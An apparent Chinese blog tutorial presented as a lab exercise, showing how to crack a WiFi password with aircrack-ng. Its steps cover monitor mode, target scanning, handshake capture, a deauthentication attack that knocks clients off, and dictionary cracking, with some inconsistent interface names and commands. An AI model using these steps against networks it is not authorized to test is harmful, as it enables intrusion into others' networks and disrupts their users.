 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
## 实验过程
### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包
### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启 
 <center>
  <img src="/images/thumbs/wlan0.png" width=250 height=220 /">
 </center>
                                                               
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" width=250 height=220 /">

### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
<img src="/images/thumbs/mubiao.jpg" width=250 height=220 /">   

### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```
 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6  
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
  <img src="/images/thumbs/attack.jpg" width=250 height=220 /">
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
  <img src="/images/thumbs/ben.jpg" width=250 height=220 /">
 + -w是指定我的密码本

